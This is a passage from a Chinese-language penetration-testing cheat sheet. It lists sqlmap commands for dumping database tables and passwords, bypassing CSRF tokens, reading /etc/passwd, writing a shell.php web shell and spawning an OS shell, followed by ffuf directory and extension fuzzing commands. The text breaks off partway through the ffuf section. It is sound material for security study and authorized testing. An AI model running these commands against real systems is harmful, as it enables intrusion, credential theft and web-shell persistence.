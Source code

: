 |sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"	|条件枚举|
|sqlmap -u "http://www.example.com/?id=1" --schema	|数据库架构枚举|
|sqlmap -u "http://www.example.com/?id=1" --search -T user	|搜索数据|
|sqlmap -u "http://www.example.com/?id=1" --passwords --batch	|密码枚举和破解|
|sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"	|反CSRF令牌绕过|
|sqlmap --list-tampers	|列出所有篡改脚本|
|sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba	|检查 DBA 权限|
|sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"	|读取本地文件|
|sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"	|写入文件|
|sqlmap -u "http://www.example.com/?id=1" --os-shell	|生成操作系统 shell|


>其他参数

参数|用法
|-|-|
--user-agent="" | 设置用户代理
--batch |省略输入Y的步骤
--cookie="" |设置cookie
-p "" | 指定测试的参数
-D "" | 指定数据库
-T "" | 指定表
-C "" | 指定列
--dbs | 爆破数据库名
--tables | 爆破表名
--columns | 爆破列名
--dump | 读取指定键的值

### ffuf

>目录模糊测试

ffuf -u http://MACHINE_IP/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt:FUZZ

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ

您也可以使用任何自定义关键字来代替FUZZ，您只需要像这样定义它 wordlist.txt:KEYWORD。

ffuf -u http://MACHINE_IP/NORAJ -w /usr/share/seclists/Discovery/Web-Content/big.txt:NORAJ

>页面模糊测试

扩展名模糊测试

 ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://SERVER_IP:PORT/blog/indexFUZZ

页面模糊测试
